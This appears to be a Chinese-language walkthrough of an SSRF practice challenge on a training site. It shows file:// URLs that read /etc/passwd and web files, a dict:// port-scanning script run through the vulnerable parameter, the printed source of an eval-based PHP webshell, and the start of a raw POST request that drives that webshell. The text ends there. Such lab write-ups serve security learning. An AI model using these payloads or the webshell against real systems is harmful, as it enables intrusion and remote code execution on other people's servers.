 ### SSRF练习

1. 读取password所在文件：`http://oj.momomoxiaoxi.com:9090/index.php?url=file:///etc/passwd` &rarr; 一般只用于测试payload是否有效。
2. 使用dirsearch对目标进行扫描： `python dirsearch.py http://oj.momomoxiaoxi.com:9090 -e php`
3. 扫描出一个 `robots.txt` 文件，我们再用第一步的方法访问该文件 &rarr; `http://oj.momomoxiaoxi.com:9090/index.php?url=file:///var/www/html/robots.txt` &rarr; 其中 `/var/www/html/` 是Apache的根文件夹，扫描文件没有越权无法获得操作系统的根文件夹，认为Apache的入口文件夹为根文件夹
4. 在robots.txt文件中存在一个 `webshe11111111.php` 文件，我们用同样的方法访问该文件 &rarr; `view-source:http://oj.momomoxiaoxi.com:9090/index.php?url=file:///var/www/html/webshe11111111.php` 得到php源代码：

```php
<?php
$serverList = array(
    "127.0.0.1"
);
$$ip = $$_SERVER['REMOTE_ADDR'];
foreach ($$serverList as $$host) {
    if ($$ip === $$host) {
        if ((!empty($$_POST['admin'])) and $$_POST['admin'] === 'h1admin') {
            @eval($_POST['hacker']);
        } else die("You aren't admin!");
    } else die('This is webshell');
} ?>
```

5. 利用dict协议查看端口开启情况，以下为编写Python脚本：

```python
import requests

url = 'http://oj.momomoxiaoxi.com:9090/index.php?url='
defaultlen = len(requests.get(url+'dict://127.0.0.1:0/info').content)
print("defaultlen:%d"%defaultlen)

for x in range(1000):
    try:
        response = requests.get(url+'dict://127.0.0.1:%s/info'%str(x))
        if len(response.content) != defaultlen:
            print("Port %s, content: %s"%(str(x), response.content))
    except Exception as e:
        print(e)
        pass
```

6. 我们发现22端口和80端口处于开启状态，其中80端口返回400 Bad Request，我们尝试使用9090端口作为跳板攻击80端口
7. 配置本地环境：使用Apache打开两个端口进行测试，在其中一个端口配置之前抓取下来的PHP文件，并向其发送POST请求，使用FireFox抓取发送的数据包，复制进入Python即可获得以下Python脚本：

```python
import urllib.parse
from selenium import webdriver

PostHead = """\
POST /webshe11111111.php HTTP/1.1
Host: 127.0.0.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://127.0.0.1:9090/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: keep-alive
Upgrade-Insecure-Requests: 1

admin=h1admin&hacker=phpinfo();
"""
```